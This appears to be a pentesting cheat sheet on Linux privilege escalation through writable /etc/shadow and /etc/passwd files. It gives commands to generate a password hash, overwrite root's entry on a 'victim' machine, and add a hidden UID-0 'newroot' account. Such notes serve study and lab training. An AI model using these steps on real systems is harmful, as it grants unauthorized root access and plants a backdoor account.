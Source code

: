 # Weak Files Permissions

## Writable `/etc/shadow`

```bash
# In local machine generate new sha512 hash
mkpasswd -m sha-512 newpassword

Edit the victim /etc/shadow file and replace the root password hash
(everything between the first and second double colon : xxxxxx:)
```

## Writable `/etc/passwd`

### a) Generate a new password

```bash
# In local machine generate new sha512 hash
openssl passwd newpassword

Edit the victim /etc/passwd file and replace the X in root with the password hash
(The X instruct the computer to look in the shadow file for the hash password.)

From: root:x:0:0:root:/bin/bash
To: root:2EF5HRnQdTg/s:0:0:root:/bin/bash

Change user and use the new password:
su
```

### b) Generate a new root user

```bash
Copy the root user line in /etc/passwd
root:2EF5HRnQdTg/s:0:0:root:/bin/bash

Paste in the bottom with a different username
newroot:2EF5HRnQdTg/s:0:0:root:/bin/bash

Change user and use the new password
$ su newroot
```
